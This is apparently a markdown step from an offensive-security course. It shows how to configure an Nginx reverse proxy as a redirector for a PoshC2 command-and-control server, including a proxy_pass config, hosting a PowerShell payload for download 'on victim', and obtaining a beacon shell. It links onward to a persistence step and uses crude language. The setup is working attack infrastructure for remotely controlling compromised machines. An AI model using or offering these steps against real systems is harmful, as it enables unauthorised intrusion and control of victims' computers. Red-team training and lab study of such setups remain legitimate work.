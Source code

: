 # Setting up Nginx with TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffic and beacon traffic can sometimes be encrypted by default making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lets install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets create a config file for pass through connections 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```
    server {
        listen 80;
        #NOTE: This line is so payloads can be downloaded over port 80 using Powershell
        server_name <IP of Proxy Server>;

        location / {
            proxy_pass https://<posh-server IP>:<Posh bind port>;
        }
    }
    ```

5. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here, create a poshc2 project with the bind port set to 80, and in `payloadcomshost` set your `http://proxy-ip`

7. Host your payload however and download on victim 

8. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md) or [Go To Next Step](step3-persistence.md)